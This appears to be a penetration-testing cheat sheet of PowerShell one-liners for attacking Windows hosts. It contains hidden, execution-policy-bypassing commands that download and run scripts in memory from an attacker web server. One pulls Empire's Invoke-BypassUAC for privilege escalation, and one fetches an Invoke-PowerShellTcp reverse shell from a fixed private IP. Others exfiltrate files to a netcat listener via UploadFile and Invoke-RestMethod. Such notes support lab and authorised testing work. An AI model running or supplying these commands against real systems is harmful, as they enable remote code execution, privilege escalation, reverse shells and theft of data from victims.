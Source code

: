 ## Start up WebServer

## Run script in memory:
powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object System.Net.WebClient).DownloadString('http://LocalIPAddress:PORT/FILE')

powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'

# In PowerShell:
IEX((New-Object System.Net.WebClient).DownloadString('http://LocalIPAddress:PORT/FILE'))

=========================================

# Download File:
powershell.exe -Exec Bypass -NoP -NonI -W Hidden (New-Object System.Net.WebClient).DownloadFile('http://LocalIPAddress:PORT/FILE', 'LOCAL_FILENAME')

# In PowerShell:
(New-Object System.Net.WebClient).DownloadFile('http://LocalIPAddress:PORT/FILE', 'LOCAL_FILENAME')


=========================================

# Upload File:
powershell.exe -Exec Bypass -NoP -NonI -W Hidden (New-Object System.Net.WebClient).UploadFile('http://LocalIPAddress:PORT/FILE', 'LOCAL_FILENAME')

# In PowerShell:
(New-Object System.Net.WebClient).UploadFile('http://LocalIPAddress:PORT/FILE', 'LOCAL_FILENAME')

---------------
# If you can't copy over SMB
## On Local Box
nc -lnvp 443 > Out.File
## On Windows Box
Invoke-RestMethod -Uri http://<LocalIPAddress>:<PORT>/<FILE> -Method Post -InFile <LocalFile>

=========================================

## Upgrade PSH to 64-bit shell
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.Webclient).DownloadString('http://192.168.119.187:80/Invoke-PowerShellTcp.ps1')

C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object Net.Webclient).DownloadString('http://192.168.119.187:80/Invoke-PowerShellTcp.ps1')
